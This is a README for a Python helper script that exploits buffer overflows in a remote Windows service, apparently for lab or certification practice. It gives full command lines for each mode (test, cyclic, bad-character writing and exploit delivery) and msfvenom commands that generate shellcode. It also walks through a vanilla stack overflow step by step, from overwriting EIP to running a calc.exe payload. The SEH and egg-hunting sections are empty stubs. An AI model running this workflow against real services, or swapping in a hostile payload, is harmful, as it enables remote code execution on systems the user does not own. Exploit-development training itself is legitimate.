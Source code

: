 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic string to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=after --exclude=000a
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=before --exclude=000a --reversejmp=800
```

exploit - Sends malicious payload via buffer overflow
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --reversejmp=800 --shellcode=opencalc --nops=10
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Script mode (test|cyclic|write|exploit).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffsize calc.
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --badchar	: Adds bad chars before (before) or after (after) the content. Used for bad char testing.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --reversejmp	: Size in bytes to jump before the content to inject bad chars or the shell code.
* --shellcode	: Hex shell code file generated using msfvenom.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f hex EXITFUNC=thread -o opencalc
* --nops		: Amount of nops to add before and after the shell code. Default is 0.

## Vanilla Buffer Overflow example

1. Overwrite EIP
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/'
```

2. Identify EIP offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/'
```

3. Test for badchar (JMP ESP address 625012F0 found using !mona jmp -n -r ESP)
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/' --offset=1203 --hexcontent=l625012F0 --badchar=after --exclude=00
```

4. Execute shell code
```
msfvenom -p windows/exec cmd=calc.exe -b "\x00" -f hex EXITFUNC=thread -o mycalc

./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/' --offset=1203 --hexcontent=l625012F0 --shellcode=mycalc --nops=12
```


## SEH Overwrite example

TODO

## Egg Hunting example

TODO
